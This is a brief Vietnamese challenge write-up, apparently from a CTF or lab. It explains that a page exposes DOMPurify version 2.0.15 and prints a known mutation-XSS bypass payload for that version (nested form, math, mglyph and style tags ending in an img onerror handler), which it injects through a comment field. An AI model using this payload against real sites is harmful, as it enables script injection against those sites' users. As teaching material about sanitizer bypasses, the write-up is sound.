 **Yêu cầu: Sử dụng html để chèn XSS**
![image](https://user-images.githubusercontent.com/62832067/150782475-5012828c-ee0f-4171-b23a-2353184f3412.png)
Trong source code có hiện tên phiên bản domPurify 2.0.15 và dễ dàng tìm được payload XSS của phiên bản này trên google
``` html
<form>
<math> <mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
  ```
  <br> Ta chèn payload vào phần comment, chú ý tới định dạng của input là xong 
  ![image](https://user-images.githubusercontent.com/62832067/150782703-4e8c4a5f-9f33-4cce-8127-f278ee8a3963.png)


